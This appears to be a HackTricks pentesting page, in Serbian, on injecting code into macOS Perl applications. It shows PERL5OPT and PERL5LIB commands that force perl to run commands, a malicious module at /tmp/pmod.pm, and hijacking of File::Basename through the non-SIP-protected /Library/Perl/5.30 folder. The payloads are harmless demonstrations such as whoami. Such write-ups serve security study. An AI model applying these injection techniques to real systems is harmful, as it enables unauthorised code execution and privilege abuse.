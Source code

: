 # macOS Perl Applications Injection

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJE**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Kroz `PERL5OPT` & `PERL5LIB` env promenljive

Korišćenjem env promenljive PERL5OPT moguće je naterati perl da izvrši proizvoljne komande.\
Na primer, kreirajte ovaj skript:

{% code title="test.pl" %}
```perl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
{% endcode %}

Sada **izvezite env promenljivu** i izvršite **perl** skriptu:

```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```

Druga opcija je da se kreira Perl modul (npr. `/tmp/pmod.pm`):

{% code title="/tmp/pmod.pm" %}
```perl
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
{% endcode %}

Zatim koristite env promenljive:

```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod
```

## Preko zavisnosti

Moguće je izlistati redosled foldera zavisnosti Perl-a koji se izvršava:

```bash
perl -e 'print join("\n", @INC)'
```

Što će vratiti nešto slično:

```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```

Neke od vraćenih foldera čak ne postoje, međutim, **`/Library/Perl/5.30`** **postoji**, nije **zaštićen** od strane **SIP** i nalazi se **ispred** foldera **zaštićenih SIP-om**. Stoga, neko bi mogao zloupotrebiti taj folder da dodaje zavisnosti skripti tamo kako bi visoko privilegovana Perl skripta mogla da je učita.

{% hint style="warning" %}
Međutim, imajte na umu da **morate biti root da biste pisali u taj folder** i danas ćete dobiti ovaj **TCC prozor**:
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt="" width="244"><figcaption></figcaption></figure>

Na primer, ako skripta uvozi **`use File::Basename;`** bilo bi moguće kreirati `/Library/Perl/5.30/File/Basename.pm` da bi se izvršio proizvoljni kod.

## Reference

* [https://www.youtube.com/watch?v=zxZesAN-TEk](https://www.youtube.com/watch?v=zxZesAN-TEk)
